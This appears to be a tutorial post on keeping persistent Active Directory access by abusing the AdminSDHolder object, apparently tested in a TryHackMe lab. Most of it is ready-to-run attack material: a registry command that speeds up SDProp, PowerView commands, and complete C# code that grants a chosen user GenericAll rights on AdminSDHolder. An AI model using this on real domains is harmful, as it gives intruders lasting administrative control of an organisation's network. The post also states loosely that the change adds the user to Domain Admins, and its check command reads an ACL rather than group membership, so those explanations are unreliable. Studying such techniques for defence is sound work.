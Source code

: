 # Adding ourselves to AdminSDHolder

In this post, we will be discussing a domain persistence technique.

## AdminSDHolder Object
AdminSDHolder container acts as ACL template for many protected users and accounts in Active Directory. For every 60 minutes SDProp process applies these ACE's of AdminSDHolder object. This means if we add an user with All Permissions to this object then we can add ourselves to the 'Domain Admins' group. Also we need Domain Administrator privileges to add an user.

Distinguised Name for AdminSDHolder object is `CN=AdminSDHolder,CN=System,DC=tech69,DC=local`

To view in the "Active Directory Users and Computers" -> Click on View -> Show Advanced

## Changing the SDProp interval via registry

We can set it to any number of seconds we want

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /T REG_DWORD /F /D 100
```

## Adding User via PowerView

Import poweview and use command Add-objectacl

```powershell
import-module powerview.ps1


Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName test1 -Verbose -Rights All
```

To check if we are part of Domain Admins or not, we can use net command or

```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'test1'}
```

## Adding User via C#

I have explained this code in my youtube channel and here is the video link
[Domain Persistence via AdminSDHolder](https://youtu.be/4TMpwKBTFq0)

Also i have tested this on my local AD and in tryhackme's throwback network. You can configure this program to receive command line arguments to add specific user. 

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.DirectoryServices;
using System.DirectoryServices.ActiveDirectory;
using System.DirectoryServices.AccountManagement;
using System.Security.Principal;
using System.Security.AccessControl;

namespace ADACL101
{
    class Program
    {
        static void Main(string[] args)
        {

            DirectoryEntry de = new DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=THROWBACK,DC=local");
            DirectorySearcher ds = new DirectorySearcher();
            ds.SearchRoot = de;
            foreach(SearchResult sr in ds.FindAll())
            {
                DirectoryEntry holder = sr.GetDirectoryEntry();
                ActiveDirectorySecurity ads = holder.ObjectSecurity;
                AuthorizationRuleCollection arc = ads.GetAccessRules(true, true, typeof(NTAccount));
                foreach(AuthorizationRule a in arc)
                {
                    Console.WriteLine(a.IdentityReference.ToString());
                }
                PrincipalContext pc = new PrincipalContext(ContextType.Domain);
                UserPrincipal user = UserPrincipal.FindByIdentity(pc, "BlaireJ");
                ActiveDirectoryAccessRule ar = new ActiveDirectoryAccessRule(user.Sid, ActiveDirectoryRights.GenericAll, AccessControlType.Allow);
                ads.AddAccessRule(ar);
                holder.CommitChanges();
            }
        }
    }
}

```

![alt root](/Pasted image 20220423182151.png)

## Manually triggering SDProp

We can manually trigger these replication changes via ldp.exe 

This microsoft doc explains very clearly -> [Protected Accounts and Groups](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory)
